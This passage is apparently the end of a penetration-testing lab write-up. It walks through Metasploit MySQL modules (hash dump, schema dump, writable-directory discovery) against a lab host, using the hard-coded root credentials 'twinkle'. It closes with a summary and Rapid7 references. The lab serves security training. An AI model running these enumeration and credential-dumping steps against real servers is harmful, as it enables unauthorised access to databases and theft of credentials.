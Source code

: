 - Purpose: attempt to dump authentication information from `mysql.user` or related tables. Output may contain authentication strings or hashed credentials (if privileges allow). Handle hashes per policy — do not crack without permission.

### Step 10 — Run `auxiliary/scanner/mysql/mysql_schemadump` (dump schema)

```text
use auxiliary/scanner/mysql/mysql_schemadump
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```

- Purpose: extract database schemas (CREATE statements). Useful for understanding data structure and identifying tables of interest.

### Step 11 — Run `auxiliary/scanner/mysql/mysql_writable_dirs` (discover writable dirs)

```text
use auxiliary/scanner/mysql/mysql_writable_dirs
set RHOSTS demo.ine.local
set USERNAME root
set PASSWORD twinkle
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
run
```

- Purpose: attempts to find filesystem directories the MySQL process can write to (may enable `INTO OUTFILE` attacks). Use results responsibly and only with explicit permission.

---

## Conclusion
In this lab we exercised multiple Metasploit MySQL modules covering version discovery, credential testing, high-level enumeration, SQL execution, file enumeration, hash dumping, schema extraction, and writable-directory discovery. Together, these modules provide a comprehensive view of what an authenticated or partially authenticated attacker could do against a MySQL server.

Always treat any extracted data (hashes, schema dumps, files) as sensitive. Follow your engagement rules for storage, cracking, or reporting.

---

## References
- MySQL documentation: https://dev.mysql.com/doc/
- Metasploit modules used (Rapid7 module pages):
  - https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_version
  - https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_login
  - https://www.rapid7.com/db/modules/auxiliary/admin/mysql/mysql_enum
  - https://www.rapid7.com/db/modules/auxiliary/admin/mysql/mysql_sql
  - https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_file_enum
  - https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_hashdump
  - https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_schemadump
  - https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_writable_dirs

---